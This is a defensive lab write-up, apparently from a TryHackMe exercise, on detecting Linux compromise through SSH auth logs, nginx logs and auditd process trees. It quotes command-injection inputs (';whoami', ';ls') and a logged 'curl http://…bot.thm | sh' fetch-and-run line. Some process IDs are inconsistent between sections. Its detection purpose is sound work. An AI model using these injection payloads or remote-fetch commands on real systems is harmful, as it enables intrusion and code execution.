


# Linux Threat Detection

## Overview

This investigation focused on detecting Linux post-compromise activity related to SSH attacks, Initial Access via exposed services, command injection, and process tree analysis using Linux authentication, web server, and audit logs.

The investigation covered the following areas:

* SSH Attack Detection
* Initial Access via Services
* Web Application Command Injection
* Service Breach Detection
* Auditd and Process Tree Analysis
* Reverse Shell Detection

---

# Detecting SSH Attacks

## SSH Password Brute Force

On Linux, SSH attack detection can begin by reviewing authentication logs and identifying failed and successful SSH login attempts.

The investigation used the following authentication log:

```text
/var/log/auth.log
```

### Investigation

The failed SSH login attempts were filtered using:

```bash
cat /var/log/auth.log | grep "Failed"
```

### Finding 1: SSH Brute Force Start

| Artifact | Value |
| -------- | ----- |
| Date | `2025-08-21` |
| Log | `/var/log/auth.log` |

The SSH password brute-force attack started on `2025-08-21`.

### Finding 2: Targeted Users

The botnet attempted to breach the following users:

| User |
| ---- |
| `root` |
| `roy` |
| `sol` |
| `user` |

### Finding 3: Successful Root Login

Successful SSH logins were identified using:

```bash
cat /var/log/auth.log | grep -E "Accepted"
```

| Artifact | Value |
| -------- | ----- |
| Compromised User | `root` |
| Attacker IP | `91.224.92.79` |

The IP address `91.224.92.79` successfully breached the `root` account.



---

# Initial Access via Services

## Web as Initial Access

Publicly exposed applications can provide an entry point into a Linux system, especially when vulnerable web applications allow attackers to execute operating system commands.

The investigation focused on a vulnerable web application called **TryPingMe**.

The application allowed users to specify an IP address to ping. Internally, it executed a system command similar to:

```text
ping -c 2 [YOUR-INPUT]
```

Because the input was not properly filtered, an attacker could inject additional Linux commands through the web application's query parameter.

---

## Web Logs Analysis

The web server access log was investigated using:

```bash
cat /var/log/nginx/access.log
```

The relevant requests included:

```text
10.2.33.10 - - [19/Aug/2025:12:26:07] "GET /ping?host=3.109.33.76 HTTP/1.1" 200 [...]
10.12.88.67 - - [23/Aug/2025:09:32:22] "GET /ping?host=54.36.19.83 HTTP/1.1" 200 [...]
10.14.105.255 - - [26/Aug/2025:20:09:43] "GET /ping?host=hello HTTP/1.1" 500 [...]
10.14.105.255 - - [26/Aug/2025:20:09:46] "GET /ping?host=whoami HTTP/1.1" 500 [...]
10.14.105.255 - - [26/Aug/2025:20:09:49] "GET /ping?host=;whoami HTTP/1.1" 200 [...]
10.14.105.255 - - [26/Aug/2025:20:10:41] "GET /ping?host=;ls HTTP/1.1" 200 [...]
```

### Finding 1: Suspicious Attacker IP

| Artifact | Value |
| -------- | ----- |
| IP Address | `10.14.105.255` |

The requests from `10.14.105.255` were suspicious because the client supplied Linux commands instead of normal IP addresses.

### Finding 2: Command Injection

The attacker attempted commands including:

```text
whoami
ls
;whoami
;ls
```

The use of `;whoami` and `;ls` indicates command injection because the attacker was attempting to execute additional operating system commands through the vulnerable `host` parameter.

### Finding 3: Vulnerable Endpoint

| Artifact | Value |
| -------- | ----- |
| Endpoint | `/ping` |
| Application | `TryPingMe` |
| Vulnerability | Command Injection |

The `/ping` page was vulnerable and allowed the attacker to execute operating system commands.

---

## Investigation Findings

The web logs indicate that:

* `10.14.105.255` is likely the attacker's IP address.
* The `/ping` page was vulnerable to command injection.
* The attacker executed operating system commands such as `whoami` and `ls`.
* The TryPingMe vulnerability placed the system at risk of further compromise.

### Finding 4: Python Application File

The web logs were further investigated to identify the file the attacker attempted to access.

| Artifact | Value |
| -------- | ----- |
| File | `/opt/trypingme/main.py` |

The attacker attempted to open:

```text
/opt/trypingme/main.py
```

### Finding 5: Malware / Investigation Flag

The file was opened using:

```bash
cat /opt/trypingme/main.py
```

| Artifact | Value |
| -------- | ----- |
| Flag | `THM{i_am_vulnerable!}` |

The flag found inside the Python application was:

```text
THM{i_am_vulnerable!}
```



---

# Detecting Service Breach

## Auditd and Process Tree

After identifying suspicious commands, Linux audit logs can be used to trace the process responsible for executing them.

The investigation started by locating the suspicious `whoami` command:

```bash
ausearch -i -x whoami
```

The result showed:

```text
type=PROCTITLE msg=audit(08/25/25 16:28:18.107:985) : proctitle=whoami
type=SYSCALL msg=audit(08/25/25 16:28:18.107:985) : syscall=execve success=yes exit=0 items=2 ppid=3905 pid=3907 auid=unset uid=ubuntu tty=(none) exe=/usr/bin/whoami key=exec
```

The `ppid` field can then be used to move up the process tree.

---

## Process Tree Analysis

### Parent Process

The parent process was investigated using:

```bash
ausearch -i --pid 3905
```

The result showed:

```text
type=PROCTITLE msg=audit(08/25/25 16:28:17.101:983) : proctitle=/bin/sh -c whoami
type=SYSCALL msg=audit(08/25/25 16:28:17.101:983) : syscall=execve success=yes exit=0 items=2 ppid=3898 pid=3905 auid=unset uid=ubuntu tty=(none) exe=/usr/bin/dash key=exec
```

This showed that `/bin/sh -c whoami` was responsible for launching the `whoami` command.

### Grandparent Process

The next process in the tree was investigated using:

```bash
ausearch -i --pid 3898
```

The result showed:

```text
type=PROCTITLE msg=audit(08/25/25 16:28:11.727:982) : proctitle=/usr/bin/python3 /opt/mywebapp/app.py
type=SYSCALL msg=audit(08/25/25 16:28:11.727:982) : syscall=execve success=yes exit=0 items=2 ppid=1 pid=3898 auid=unset uid=ubuntu tty=(none) exe=/usr/bin/python3.12 key=exec
```

The process tree showed that the suspicious command was ultimately launched by the Python web application:

```text
/usr/bin/python3 /opt/mywebapp/app.py
```

---

## Suspicious Child Processes

The child processes of the Python web application were examined using:

```bash
ausearch -i --ppid 3898 | grep 'proctitle'
```

The results included:

```text
type=PROCTITLE msg=audit(08/25/25 16:28:17.101:983) : proctitle=/bin/sh -c whoami
type=PROCTITLE msg=audit(08/25/25 16:28:18.230:985) : proctitle=/bin/sh -c ls -la
type=PROCTITLE msg=audit(08/25/25 16:28:19.765:987) : proctitle=/bin/sh -c curl http://17gs9q1puh8o-bot.thm | sh[...]
```

The presence of a `curl` command piped directly into `sh` provided further evidence of malicious activity originating from the compromised web application.

### Finding 1: Suspicious Command PPID

| Artifact | Value |
| -------- | ----- |
| Command | `whoami` |
| PPID | `1018` |

The suspicious `whoami` command had a PPID of `1018`.

### Finding 2: TryPingMe Application PID

Moving up the process tree using:

```bash
ausearch -i --pid 1018
```

identified the TryPingMe application.

| Artifact | Value |
| -------- | ----- |
| Application | `TryPingMe` |
| PID | `577` |

The TryPingMe application had PID `577`.

### Finding 3: Reverse Shell Program

The process tree was investigated using:

```bash
ausearch -I --pid 577
```

| Artifact | Value |
| -------- | ----- |
| Program | `Python` |

Python was identified as the program used by the attacker to open the reverse shell.

---

# Key Findings

| Investigation Area | Finding |
| ------------------ | ------- |
| SSH Brute Force Start | `2025-08-21` |
| Targeted Users | `root`, `roy`, `sol`, `user` |
| Successful Root Login IP | `91.224.92.79` |
| Vulnerable Application | `TryPingMe` |
| Attacker IP | `10.14.105.255` |
| Vulnerable Endpoint | `/ping` |
| Injection Commands | `whoami`, `ls`, `;whoami`, `;ls` |
| Python File | `/opt/trypingme/main.py` |
| Investigation Flag | `THM{i_am_vulnerable!}` |
| TryPingMe PID | `577` |
| Reverse Shell Program | `Python` |

---

# Skills Demonstrated

* Linux Threat Detection
* SSH Attack Detection
* Nginx Access Log Analysis
* Web Application Attack Detection
* Command Injection Detection
* Linux Command Analysis
* Auditd Log Analysis
* Process Tree Analysis
* Parent and Child Process Identification
* Reverse Shell Detection
* SOC Investigation and Triage
